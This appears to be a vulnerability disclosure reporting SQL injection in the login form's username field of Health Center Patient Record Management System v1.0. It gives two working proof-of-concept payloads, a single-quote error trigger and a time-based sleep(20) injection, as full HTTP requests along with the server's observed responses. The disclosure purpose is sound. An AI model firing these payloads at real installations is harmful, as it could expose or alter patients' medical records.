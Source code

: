 # Health Center Patient Record Management System v1.0 has SQL injection

BUG_Author: wangte

Vulnerability File: /HCPMS/login.php

form-data parameter name="username" (POST), exists SQL injection vulnerability

Payload1:a'

```
POST /HCPMS/login.php HTTP/1.1
Host: localhost
Content-Length: 329
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx9y4jGcydZgVeJEQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close

------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="username"

a'
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryx9y4jGcydZgVeJEQ--

```

An error occurred in the sql statement

![image](https://github.com/2689469248/bug_report/blob/main/pictures/sql1.png)

Payload2:a'+(select*from(select(sleep(20)))a)+'

```
POST /HCPMS/login.php HTTP/1.1
Host: localhost
Content-Length: 365
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx9y4jGcydZgVeJEQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close

------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="username"

a'+(select*from(select(sleep(20)))a)+'
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryx9y4jGcydZgVeJEQ--

```

The server's response time is 20 seconds

![image](https://github.com/2689469248/bug_report/blob/main/pictures/sql2.png)

